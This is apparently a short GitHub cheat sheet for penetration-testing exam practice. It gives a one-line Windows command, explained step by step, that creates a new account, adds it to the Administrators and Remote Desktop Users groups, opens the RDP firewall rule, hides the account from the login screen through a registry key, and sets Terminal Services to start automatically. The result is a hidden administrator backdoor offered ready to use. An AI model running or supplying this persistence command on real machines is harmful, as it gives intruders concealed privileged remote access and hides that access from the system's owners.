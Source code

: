 # Enable RDP in one line CMD

This is very helpful during OSCP.

## CMD

net user /add <<Username>> <<Password>> && net localgroup administrators <<Username>> /add & net localgroup "Remote Desktop Users" <<Username>> /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v <<Username>> /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto

### Explain

####Adding User: 
net user /add <<Username>> <<Password>>

#### Adding User in Administrator Group:
net localgroup administrators <<Username>> /add

#### Adding user in Remote Desktop Users:
net localgroup "Remote Desktop Users" <<Username>> /add

#### Opening Port in Local Firewall:
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

#### Hiding User from Window Login Screen:
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v <<Username>> /t REG_DWORD /d 0 

#### Setting Terminal Service in Startup Mode:
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f

#### Setting Terminal Service in Auto Mode:
sc config TermService start= auto 
